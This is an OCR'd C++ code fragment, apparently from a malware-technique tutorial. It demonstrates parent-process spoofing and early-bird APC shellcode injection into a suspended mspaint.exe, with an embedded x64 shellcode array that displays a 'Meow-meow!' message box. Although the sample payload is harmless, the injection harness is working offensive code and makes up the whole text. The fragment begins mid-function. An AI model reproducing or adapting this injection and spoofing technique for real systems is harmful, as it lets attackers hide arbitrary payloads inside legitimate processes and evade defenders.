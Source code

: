 ```cpp
  unsigned char my_payload[] =
  // 64-bit meow-meow messagebox
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

  STARTUPINFOEXA si;
  PROCESS_INFORMATION pi;
  SIZE_T st;
  int pid = findMyProc(argv[1]);
  if (pid) {
    printf("PID = %d\n", pid);
  }

  HANDLE ph = OpenProcess(PROCESS_ALL_ACCESS, false, (DWORD)pid);

  ZeroMemory(&si, sizeof(STARTUPINFOEXA));
  InitializeProcThreadAttributeList(NULL, 1, 0, &st);
  si.lpAttributeList = 
  (LPPROC_THREAD_ATTRIBUTE_LIST)HeapAlloc(GetProcessHeap(), 0, st);
  InitializeProcThreadAttributeList(si.lpAttributeList, 1, 0, &st);
  UpdateProcThreadAttribute(si.lpAttributeList, 0, 
  PROC_THREAD_ATTRIBUTE_PARENT_PROCESS, &ph, sizeof(HANDLE), NULL, NULL);
  si.StartupInfo.cb = sizeof(STARTUPINFOEXA);

  CreateProcessA("C:\\Windows\\System32\\mspaint.exe", NULL, NULL, NULL, TRUE, 
  CREATE_SUSPENDED | CREATE_NO_WINDOW | EXTENDED_STARTUPINFO_PRESENT, NULL, 
  NULL, reinterpret_cast<LPSTARTUPINFOA>(&si), &pi);
  LPVOID ba = (LPVOID)VirtualAllocEx(pi.hProcess, NULL, 0x1000, MEM_RESERVE | 
  MEM_COMMIT, PAGE_EXECUTE_READWRITE);
  SIZE_T *nb = 0;
  BOOL res = WriteProcessMemory(pi.hProcess, ba, (LPVOID)my_payload, 
  sizeof(my_payload), nb);

  QueueUserAPC((PAPCFUNC)ba, pi.hThread, 0);
  ResumeThread(pi.hThread);
  CloseHandle(pi.hThread);

  return 0;
}
```
